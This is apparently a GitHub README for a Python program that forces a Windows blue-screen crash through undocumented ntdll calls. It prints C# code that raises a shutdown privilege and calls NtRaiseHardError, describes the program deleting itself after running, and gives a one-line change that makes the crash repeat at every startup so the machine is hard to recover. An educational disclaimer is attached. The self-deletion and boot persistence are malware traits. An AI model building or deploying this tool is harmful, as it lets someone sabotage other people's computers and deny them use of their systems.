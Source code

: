 # Windows BSOD made in python
This project was inspired from a undocumented function in ntdll.dll.
The function is based in C# but using ctypes python makes it possible  

[Link to undocumented function](https://www.pinvoke.net/default.aspx/ntdll/NtRaiseHandError.html) 

```
C# Sample Code:
    Console.Write("Press any key to trigger a BSOD.");
    Console.ReadKey();
    RtlAdjustPrivilege(19, true, false, out bool previousValue);
    NtRaiseHardError(0xC0000420, 0, 0, IntPtr.Zero, 6, out uint Response);
```
Python version

- Supports compiling using pyinstaller and Nuitka
- Removes itself from execution directory automatically

# Restart prestance 
Modify Line 15:  

```executable = "BSOD.exe.malz"``` to ```"executable = "BSOD.exe"```  

*note this will cause it to BSOD on start up there is a very small window for deleting it*

# Disclaimer
This tool is intended for educational purposes and has been developed for troubleshooting the identification of BSOD (Blue Screen of Death) causes. Its usage for any illegal activities is strictly prohibited, as it is meant exclusively for educational purposes.
